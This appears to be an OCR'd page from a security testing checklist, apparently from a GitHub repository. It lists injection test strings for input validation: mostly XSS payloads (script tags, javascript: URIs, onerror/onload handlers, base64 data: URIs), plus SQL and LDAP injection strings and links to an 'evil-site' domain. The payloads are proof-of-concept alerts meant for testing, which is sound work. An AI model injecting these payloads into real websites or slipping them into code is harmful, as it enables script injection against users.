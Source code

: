 ```
/%20%20%
```

## Data protection

## Input validation

### Cross Site Scripting Validation Test

```
<script>javascript:alert('XSS HACKED')</script>
javascript:alert('XSS HACKED')
```

### Code injection characters and strings test

```
' ; -- ` */ /* -- or # ' OR '1 ' OR 1 -- - OR 1=1 ;%00<script>javascript:alert(123456789)</script> (&(ou=admin)(| (user=Freeman)))
```

```
/**
 * Display a base64 URL inside an iframe in another window.
 */
function debugBase64(base64URL){
    var win = window.open();
    win.document.write('<iframe src="' + base64URL  + '" frameborder="0" style="border:0; top:0px; left:0px; bottom:0px; right:0px; width:100%; height:100%;" allowfullscreen></iframe>');
}

// e.g This will open an image in a new window
debugBase64("");
```

### Multiple payloads test
```
<a href='www.evil-site.com'>www.evil-site.com link</a>
<a href='data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIEhBQ0tFRCIpOzwvc2NyaXB0Pg=='>www.evil-site.com link</a>



<a href="javascript:document.write('<image src =q onerror=prompt(8)>')">evil link</a>
<a href="javascript:let pdfWindow = window.open('');pdfWindow.document.write( `<iframe width='100%' height='100%' src='data:text/html;base64, ` + encodeURI(`PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=`) + `'></iframe>` )
">evil link</a>
<a href='data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4='>clic on xss</a>
<script>javascript:alert(123456789)</script>
<image src =q onerror=prompt(8)>
<img src="javascript:alert('XSS');">
<object src=1 href=1 onerror="javascript:alert(1)"></object>
<audio src=1 href=1 onerror="javascript:alert(1)"></audio>
<video src=1 href=1 onerror="javascript:alert(1)"></video>
<svg onload svg onload="javascript:javascript:alert(1)"></svg onload>
<iframe onLoad iframe onLoad="javascript:javascript:alert(1)"></iframe onLoad>
<iframe onbeforeload iframe onbeforeload="javascript:javascript:alert(1)"></iframe onbeforeload>
<iframe><textarea></iframe><img src='' onerror='alert(document.domain)'>
</textarea><script>alert(/xss/)</script>
<INPUT TYPE="IMAGE" SRC="javascript:javascript:alert(1);" onerror="javascript:alert(1)"  onclick="javascript:alert(1)">
<iframe><textarea></iframe><img src="" onerror="alert('14/04/2022')">

```